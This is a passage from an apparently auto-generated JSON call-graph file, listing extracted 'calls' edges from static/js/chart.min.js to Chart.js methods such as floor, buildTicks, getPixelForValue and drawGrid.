"relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "computeTickLimit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "computeTickLimit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getTickLimit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_maxDigits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleTickRangeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "computeTickLimit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveTickFontOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleTickRangeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleTickRangeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleTickRangeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "computeTickLimit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateTickLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getIndexAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDistanceFromCenterForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForDistanceFromCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointLabelContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getIndexAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPositionForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPositionForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointLabelPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawGrid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDistanceFromCenterForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDistanceFromCenterForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getIndexAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_date"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "endOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_generate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initOffsets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterAutoSkip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initOffsets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initOffsets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_generate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "startOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_tickFormatFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateTickLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_tickFormatFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveTickFontOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelCapacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_tickFormatFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getAllParsedValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelTimestamps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": 